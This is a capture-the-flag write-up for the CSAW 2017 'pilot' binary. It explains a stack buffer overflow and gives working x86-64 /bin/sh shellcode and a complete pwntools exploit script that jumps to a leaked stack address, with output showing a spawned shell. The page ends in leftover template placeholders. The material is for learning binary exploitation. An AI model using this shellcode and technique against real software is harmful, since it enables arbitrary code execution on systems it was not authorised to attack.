

---
search:
  exclude: true
---
# CSAW 2017 Pilot

## Downloading the binary file 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/06-bof_shellcode/csaw17_pilot/pilot
    --2021-03-01 14:32:43--  https://github.com/guyinatuxedo/nightmare/raw/master/modules/06-bof_shellcode/csaw17_pilot/pilot
    Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
    Resolving github.com (github.com)... 140.82.121.4
    Connecting to github.com (github.com)|140.82.121.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/06-bof_shellcode/csaw17_pilot/pilot [following]
    --2021-03-01 14:32:44--  https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/06-bof_shellcode/csaw17_pilot/pilot
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 10472 (10K) [application/octet-stream]
    Saving to: ‘pilot’
    
    pilot                               100%[=================================================================>]  10.23K  --.-KB/s    in 0.002s
    
    2021-03-01 14:32:44 (5.39 MB/s) - ‘pilot’ saved [10472/10472]
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → file pilot
    pilot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ed26a43b94fd3ff1dd15964e4106df72c01dc6c, stripped
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → chmod +x pilot
    
    

` 

## Solution 

First let's run the binary to see what it does:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → ./pilot
    [*]Welcome DropShip Pilot...
    [*]I am your assitant A.I....
    [*]I will be guiding you through the tutorial....
    [*]As a first step, lets learn how to land at the designated location....
    [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
    [*]Good Luck Pilot!....
    [*]Location:0x7ffee9a9c6c0
    [*]Command:ls
    [*]There are no commands....
    [*]Mission Failed....
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → ./pilot
    [*]Welcome DropShip Pilot...
    [*]I am your assitant A.I....
    [*]I will be guiding you through the tutorial....
    [*]As a first step, lets learn how to land at the designated location....
    [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
    [*]Good Luck Pilot!....
    [*]Location:0x7ffeeecbfee0
    [*]Command:help
    
    

The binary basically prints out text with an interesting 'location' memory address, then we enter a command and either it gives us 'mission failed' or it might give us something else. Let's inspect it in ghidra:

Now unlike the previous challenges, the main function called isn't called 'main' instead it is called 'FUN_004009a6'. Now let's inspect the parts of the code that are interesting:
    
    
    sVar2 = read(0,local_28,0x40);
    
    

Now here we can see that it scans 0x40 bytes worth of input into the local_28 variable and this variable can only hold 32 bytes worth of input, so this is a buffer overflow vulnerability. The address that is being printed is an infoleak for the start of our input in memory on the stack:

Now that we know that our local input variable is local_28 let's look at the stack layout in ghidra:
    
    
                                 **************************************************************
                                 *                          FUNCTION                          *
                                 **************************************************************
                                 undefined FUN_004009a6()
                 undefined         AL:1           <****RETURN>
                 undefined1        Stack[-0x28]:1 local_28                                XREF[2]:     00400aa4(*), 
                                                                                                       00400acf(*)  
                                 FUN_004009a6                                    XREF[4]:     entry:004008cd(*), 
                                                                                              entry:004008cd(*), 00400de0, 
                                                                                              00400e80(*)  
            004009a6 55              PUSH       RBP

Here we don't see anything between the start of our input and the return address, so this means that we should be able to use the overflow vulnerability to overwrite the return address to get code execution. so let's inspect that from gdb, we will set a breakpoint right after the read call, and look at the memory there:
    
    
            00400ae0 e8 3b fd        CALL       read                                             ssize_t read(int __fd, void * __
                     ff ff
            00400ae5 48 83 f8 04     CMP        RAX,0x4
    
    

The breakpoint will be at 0x00400ae5 because it's right after the read call:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/54 ] [binexp/2/pilot]
    → gdb ./pilot
    GNU gdb (GDB) 10.1
    Copyright (C) 2020 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later 
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-pc-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    .
    Find the GDB manual and other documentation resources online at:
        .
    
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    GEF for linux ready, type `gef' to start, `gef config' to configure
    92 commands loaded for GDB 10.1 using Python engine 3.9
    Reading symbols from ./pilot...
    (No debugging symbols found in ./pilot)
    gef➤  b *0x400ae5
    Breakpoint 1 at 0x400ae5
    gef➤  r
    Starting program: /home/nothing/binexp/2/pilot/pilot
    [*]Welcome DropShip Pilot...
    [*]I am your assitant A.I....
    [*]I will be guiding you through the tutorial....
    [*]As a first step, lets learn how to land at the designated location....
    [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
    [*]Good Luck Pilot!....
    [*]Location:0x7fffffffdf30
    [*]Command:13371337
    
    Breakpoint 1, 0x0000000000400ae5 in ?? ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $rax   : 0x9
    $rbx   : 0x0000000000400b90  →   push r15
    $rcx   : 0x00007ffff7ce0052  →  0x5677fffff0003d48 ("H="?)
    $rdx   : 0x40
    $rsp   : 0x00007fffffffdf30  →  0x3733333137333331 ("13371337"?)
    $rbp   : 0x00007fffffffdf50  →  0x0000000000000000
    $rsi   : 0x00007fffffffdf30  →  0x3733333137333331 ("13371337"?)
    $rdi   : 0x0
    $rip   : 0x0000000000400ae5  →   cmp rax, 0x4
    $r8    : 0xb
    $r9    : 0x00007fffffffdd00  →  0x0000000000000000
    $r10   : 0xfffffffffffff61c
    $r11   : 0x246
    $r12   : 0x00000000004008b0  →   xor ebp, ebp
    $r13   : 0x0
    $r14   : 0x0
    $r15   : 0x0
    $eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0x00007fffffffdf30│+0x0000: 0x3733333137333331   ← $rsp, $rsi
    0x00007fffffffdf38│+0x0008: 0x000000000040080a  →   add cl, ch
    0x00007fffffffdf40│+0x0010: 0x00007fffffffe040  →  0x0000000000000001
    0x00007fffffffdf48│+0x0018: 0x0000000000000000
    0x00007fffffffdf50│+0x0020: 0x0000000000000000   ← $rbp
    0x00007fffffffdf58│+0x0028: 0x00007ffff7c17b25  →  <__libc_start_main+213> mov edi, eax
    0x00007fffffffdf60│+0x0030: 0x00007fffffffe048  →  0x00007fffffffe362  →  "/home/nothing/binexp/2/pilot/pilot"
    0x00007fffffffdf68│+0x0038: 0x00000001000011bf
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x400ad8                  mov    rsi, rax
         0x400adb                  mov    edi, 0x0
         0x400ae0                  call   0x400820 
    ●→   0x400ae5                  cmp    rax, 0x4
         0x400ae9                  setle  al
         0x400aec                  test   al, al
         0x400aee                  je     0x400b2f
         0x400af0                  mov    esi, 0x400d90
         0x400af5                  mov    edi, 0x6020a0
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "pilot", stopped 0x400ae5 in ?? (), reason: BREAKPOINT
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x400ae5 → cmp rax, 0x4
    [#1] 0x7ffff7c17b25 → __libc_start_main()
    [#2] 0x4008d9 → hlt
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤
    
    

So now we set the breakpoint where we wanted, then ran the binary, put in a simple pattern '13371337' and then we hit our breakpoint. Now let's search for our pattern in memory as well as the address of the return address:
    
    
    gef➤  search-pattern 13371337
    [+] Searching '13371337' in memory
    [+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
      0x7fffffffdf30 - 0x7fffffffdf38  →   "13371337[...]"
    
    gef➤  i f
    Stack level 0, frame at 0x7fffffffdf60:
     rip = 0x400ae5; saved rip = 0x7ffff7c17b25
     called by frame at 0x7fffffffe030
     Arglist at 0x7fffffffdf28, args:
     Locals at 0x7fffffffdf28, Previous frame's sp is 0x7fffffffdf60
     Saved registers:
      rbp at 0x7fffffffdf50, rip at 0x7fffffffdf58
    

Now we see that our pattern is located at 0x7fffffffdf30, and the return address is at 0x7fffffffdf58 so let's calculate the offset in python3: 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex( 0x7fffffffdf30 -  0x7fffffffdf58 )
    '-0x28'
    
    

And here we see that we have a 0x28 bytes offset. So our goal here is to create a payload that will first fill the 0x28 offset with nullbytes (\x00) and then we will be able to overwrite the return address, however we must keep in mind that the Location of the pattern changes each time, so we need a way to get it no matter how it changes:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → ./pilot | grep Location
    [*]Location:0x7ffdc6df25c0
    ^C
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → ./pilot | grep Location
    [*]Location:0x7ffca4cfcef0
    ^C
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → ./pilot | grep Location
    [*]Location:0x7ffdaad8fc90
    ^C
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → ./pilot | grep Location
    [*]Location:0x7ffed0e90200
    
    

So let's begin to write our python3 exploit:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/pilot]
    → vim exploit.py
    
    
    
    
    from pwn import *
    
    target = process('./pilot')
    
    
    #print the output text until the 'Location:' part
    print(target.recvuntil("[*]Location:"))
    
    #right after the 'Location:' part, is the memory address of our input
    leak = target.recvline()
    
    inputAdr = int(leak.strip(b"\n"), 16)
    
    #store the memory address until the newline character (16 characters)
    
    print(inputAdr)
    
    payload = ""
    
    
    

Now here we have the variable called 'inputAddr' that is the memory address of our input. Now we need to put in shellcode in the payload, the first 2 writeups of this challenge that i found werent explaining the source of the shellcode that was found, but thankfully there was a writeup that explained it [here](https://0xdeadbeefjerky.com/2017/09/23/csaw-ctf-pilot-writeup.html):

_" We know that the target is a 64-bit Linux (ELF) binary (as per the ‘file’ output), so why not provide shellcode that executes /bin/sh and drop us into a shell on the host running ‘pilot’? NYU’s Offensive Security, Incident Response and Internet Security Laboratory (OSIRIS Lab) was kind enough to open source an entire repository of shellcode written by NYU students. Browsing through this repository, we come across a directory containing shellcode designed to achieve our goal - 64-bit local /bin/sh. [...] This will be our shellcode that executes /bin/sh to drop us into a shell on the target system."_

So we could clone the repository locally and generate the shellcode ourselves aswell, but we can also pick a 64bit /bin/sh shellcode from [shell-storm.org](http://shell-storm.org/shellcode/) and just copy paste it. Or we could also contruct our own shellcode instead, this is better because that way we know what the source assembly code is, and we compile the shellcode ourselves::
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/55 ] [binexp/2/pilot]
    → vim 7.asm
    
    
    
    
    section .text
            global _start
    
    _start:
    
    xor esi, esi                    ; xor out esi and edx
    xor edx, edx
    
    push 0x3b                       ;push the value of the syscall id onto the stack (0x3b is 59)
    pop rax                         ;take the out the top of the stack to put it into rax
    
    mov rbx, 0x68732f2f6e69622f     ; put the little endian hex val of '/bin//sh'  into rbx
    
    push rsi                        
    push rbx                        
    mov rdi, rsp                    
    syscall
    
    

Now let's compile it and test it:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → nasm -f elf64 7.asm
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → ld 7.o -o 7
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → ./7
    
    [ 192.168.100.1/24 ] [ /dev/pts/7 ] [/home/nothing/binexp/2/pilot]
    → echo $0
    bash
    
    [ 192.168.100.1/24 ] [ /dev/pts/7 ] [/home/nothing/binexp/2/pilot]
    → exit
    exit
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → echo $0
    /bin/zsh
    
    

And we see that it enables us to switch from zsh to bash! now let's make shellcode out of it after we adjust the assembly file:
    
    
    [bits 64]
    
    xor esi, esi                    ; xor out esi and edx
    xor edx, edx
    
    push 0x3b                       ;push the value of the syscall id onto the stack (0x3b is 59)
    pop rax                         ;take the out the top of the stack to put it into rax
    
    mov rbx, 0x68732f2f6e69622f     ; put the little endian hex val of '/bin//sh'  into rbx
    
    push rsi                        ; push the value of rsi
    push rbx                        ; push the value of rbx
    mov rdi, rsp                    ; move the value of rsp ( ) into rdi (first arguement)
    syscall
    
    

Now let's compile it:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → nasm -f bin 7.asm -o shellcode
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → cat shellcode
    11j;XH/bin//shVSH% 
    
    

Now let's view it inside of python exploit script:
    
    
    from pwn import *
    
    
    #read the shellcode file we compiled
    with open('shellcode', 'rb') as f:
      shellcode = f.read()
    
    #initialize the payload
    payload = b""
    
    payload += shellcode
    
    print(payload)
    print(hexdump(payload))
    
    
    

Now let's test our script:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → python3 exploit.py
    b'1\xf61\xd2j;XH\xbb/bin//shVSH\x89\xe7\x0f\x05'
    00000000  31 f6 31 d2  6a 3b 58 48  bb 2f 62 69  6e 2f 2f 73  │1·1·│j;XH│·/bi│n//s│
    00000010  68 56 53 48  89 e7 0f 05                            │hVSH│····│
    00000018
    
    

Now let's make the full payload and view the hexdump of it:
    
    
    from pwn import *
    
    
    target = process('./pilot')
    
    
    #print the output text until the 'Location:' part
    print(target.recvuntil("[*]Location:"))
    
    #right after the 'Location:' part, is the memory address of our input
    leak = target.recvline()
    inputAdr = int(leak.strip(b"\n"), 16)
    
    #store the memory address until the newline character (16 characters)
    print(inputAdr)
    
    
    
    with open('shellcode', 'rb') as f:
      shellcode = f.read()
    
    #initialize the payload
    payload = b""
    
    #add the shellcode to the payload this is 21 bytes long or 0x15 in hexa
    payload += shellcode
    
    #add the remaining required padding to the payload so that it attains the 0x28 size (thanks to added nullbytes)
    payload += b"\x00" * (0x28 - len(payload))
    
    #overwrite the return address with the address of the start of our input
    payload += p64(inputAdr)
    
    print(payload)
    print(hexdump(payload))
    
    

The plan here is to first push shellcode onto the stack, and we know where it is thanks to the memory address that's given to us, then we fill the gap with nullbytes, and then overwrite the return address to point to the start of our shellcode
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → python3 exploit.py
    [+] Starting local process './pilot': pid 2235412
    b'[*]Welcome DropShip Pilot...\n[*]I am your assitant A.I....\n[*]I will be guiding you through the tutorial....\n[*]As a first step, lets learn how to land at the designated location....\n[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...\n[*]Good Luck Pilot!....\n[*]Location:'
    140732702676240
    b'1\xf61\xd2j;XH\xbb/bin//shVSH\x89\xe7\x0f\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10U\xc0\xe2\xfe\x7f\x00\x00'
    00000000  31 f6 31 d2  6a 3b 58 48  bb 2f 62 69  6e 2f 2f 73  │1·1·│j;XH│·/bi│n//s│
    00000010  68 56 53 48  89 e7 0f 05  00 00 00 00  00 00 00 00  │hVSH│····│····│····│
    00000020  00 00 00 00  00 00 00 00  10 55 c0 e2  fe 7f 00 00  │····│····│·U··│····│
    00000030
    
    

Now that we have our payload, we send the payload to the binary file with the following last 2 lines :
    
    
    
    target.send(payload)
    target.interactive()
    
    
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/7 ] [binexp/2/pilot]
    → python3 exploit.py
    [+] Starting local process './pilot': pid 2248247
    b'[*]Welcome DropShip Pilot...\n[*]I am your assitant A.I....\n[*]I will be guiding you through the tutorial....\n[*]As a first step, lets learn how to land at the designated location....\n[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...\n[*]Good Luck Pilot!....\n[*]Location:'
    140730313557488
    b'1\xf61\xd2j;XH\xbb/bin//shVSH\x89\xe7\x0f\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xf0EYT\xfe\x7f\x00\x00'
    00000000  31 f6 31 d2  6a 3b 58 48  bb 2f 62 69  6e 2f 2f 73  │1·1·│j;XH│·/bi│n//s│
    00000010  68 56 53 48  89 e7 0f 05  00 00 00 00  00 00 00 00  │hVSH│····│····│····│
    00000020  00 00 00 00  00 00 00 00  f0 45 59 54  fe 7f 00 00  │····│····│·EYT│····│
    00000030
    [*] Switching to interactive mode
    [*]Command:$ cat flag.txt
    flag{g0ttem_b0yz}
    $ exit
    [*] Got EOF while reading in interactive
    $ exit
    [*] Process './pilot' stopped with exit code 0 (pid 2248247)
    [*] Got EOF while sending in interactive
    
    

And that's it! we have been able to spawn a shell and print out the flag.

## Title 

text 
    
    
    

` 

## Title 

text 
    
    
    

` 

